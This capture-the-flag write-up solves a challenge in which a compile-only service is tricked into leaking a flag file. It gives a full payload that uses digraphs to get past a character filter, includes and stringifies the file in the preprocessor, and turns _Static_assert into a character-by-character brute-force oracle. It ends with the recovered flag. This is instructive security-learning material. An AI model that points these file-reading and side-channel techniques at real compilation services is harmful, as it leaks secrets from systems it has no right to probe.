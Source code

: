 # Compiler Bot

If Compiler Explorer ( https://godbolt.org ) is too bloated for you, you can always rely on our excellent compiler bot to tell you whether you screwed up while coding your latest exploit.
And since `we never actually run your code`, there’s no way for you to hack it!

**Total solves:** 30

**Score:** 256

**Categories:** Miscellaneous

## Problem

The service receives a base64 encoded piece of code written in C, compiles the code with `clang -x c -std=c11 -Wall -Wextra -Werror -Wmain -Wfatal-errors -o /dev/null -` and the compiled code is redirected to `/dev/null`. So our input is never executed. But we have the return if the `compilation was successfully or not`. So the attack need to be done in the `preprocessor`. We know the location of the flag.

## Solution

**TL;DR:** The key to solve this problem is to use  `_Static_assert` to check the value of the stringifyed `%:include` of the flag byte by byte.

The program receives a base64 string, decode it and removes every `#`, `{`, `}`. Luckily we can use 
[digraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs), to bypass the substitutions. So `{`, `}` becomes `<%`, `%>` and `#` becomes `%:`.
Now we can use `includes`, `pragmas` and everything the preprocessor has to offer.

One way to solve this problem is to use [_Static_assert](https://stackoverflow.com/questions/3385515/static-assert-in-c) and [strncmp](www.cplusplus.com/reference/cstring/strncmp/) to check if the value of the included flag is valid or not. Verifying byte by byte, varying the strncmp length, we can bruteforce all possible values char by char.
In plain C our actual idea of payload would look like this:
```
#include<string.h>
int main()
{
    _Static_assert(strncmp("included_flag", "attempts", length_of_attempt) == 1, "");
}
```
Now there is a trick to [stringify](https://gcc.gnu.org/onlinedocs/gcc-4.8.5/cpp/Stringification.html) our included text in the preprocessor to do the comparison. We know the first chars of the flag so we make a macro replacement to force the preprocessor to interpret the included text as a string.
```
#define str(x) %:x
#define hxp str(
```
When the preprocessor find `hxp` it will replace with `str(` and interpret everything inside `str(` as a string. Example:
```
include "flag"
```
will be replaced with:
```
hxp{something here}
```
And this will turn into:
```
str(somthing here}
```
We can close `)` and the contents inside the round brackets will be interpreted as a string by the compiler. Our problem can now be solved using _Static_assert directive, comparing strings in the preprocessor, as described above.

Now we just need to put our defines outside the main function, to do this we just close the main and start another function with any name with our _Static_assert inside this function.
```
    int main()
    {}
    #define str(x) %:x
    #define hxp str(
    #include<string.h>
    void any_name(){
        _Static_assert(strncmp(
            %:include "flag"
            ), "\x7B", 1) == 1, "lol");
        )
    }
```
Since our code is inserted inside the main function we need to close main and declare our function, replacing every `#`, `{`, `}` as explained above.
Our final payload would look like this.

```
%>
    %:define str(x) %:x
    %:define hxp str(
    %:include <string.h>
    void any_name()<%
    _Static_assert(strncmp(
      %:include "flag"
    ),"\x7B", 1) == 1,"lol");
```
**Note:** the string comparison is made in hex, because tha chars `{`, `}` are replaced.
**Note:** the first `%>` is closing main

We have our payload, and now? Let's use it to bruteforce character by character, to do this we made a [script](compilerbot.py).

# Bruteforce Script

The [script](compilerbot.py) do the following steps:

* let `char_list` be a list of all possible characters
* let `n` be the size of the flag
* let `flag` be the string of already discovered characters
* While "}" not in flag (the flag doesn't have reached the end)
  * for each character `c` in our `char_list`
    * Create a payload (described above) with the `flag` plus `c` (the next character that we are trying to discover) comparing the first `n` bytes
    * if the server responded without an error, we found the next character in sequence
        * add `c` in `flag`
    * if the server responded with an error
        * We do nothing, because the character is not the next in sequence 

**Note:** Since the following characters are replaced `{`,`}` we make a comparison in `strncmp` using the hex representation. This is why `flag.encode('ascii')` is necessary

`{Cl4n6_15_c00l_bu7_y0u_r34lly_0u6h7_70_7ry_gcc_-traditional-cpp_s0m3_d4y}`

